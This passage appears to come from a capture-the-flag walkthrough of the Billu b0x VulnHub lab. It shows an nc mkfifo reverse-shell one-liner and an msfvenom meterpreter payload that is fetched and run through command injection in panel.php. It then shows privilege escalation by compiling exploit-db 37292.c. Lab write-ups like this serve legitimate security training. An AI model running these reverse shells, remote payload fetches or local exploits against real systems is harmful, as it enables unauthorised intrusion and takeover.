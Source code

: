 ## Low shell: method 1
We can get the reverse shell via 2 ways;
1. using nc

    ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.227.135 1234 >/tmp/f
    ```

![9-14.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-14.png)

2. Using msfvenom and meterpreter.
    Generate the payload
    ```
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.109.128 LPORT=1234 -f elf > shell.elf

    Start the listener
    use exploit/multi/handler
    set PAYLOAD linux/x86/meterpreter/reverse_tcp
    set LHOST 192.168.109.128
    set LPORT 1234
    set ExitOnSession false
    exploit -j -z
    ```
Get the payload;
From Burp
    POST /panel.php?cmd=wget http://192.168.109.128/shell.elf -O /tmp/shell.elf && chmod 744 /tmp/shell.elf && cd /tmp && ./shell.elf
    ...

    load=uploaded_images/shell.gif&continue=1
From this we get the meterpreter shell.

## Privilege Escalation
    run post/multi/recon/local_exploit_suggester
    upload /usr/share/exploitdb/platforms/linux/local/37292.c
    shell
    gcc 37292.c -o ofs
    chmod +x ofs
    whoami
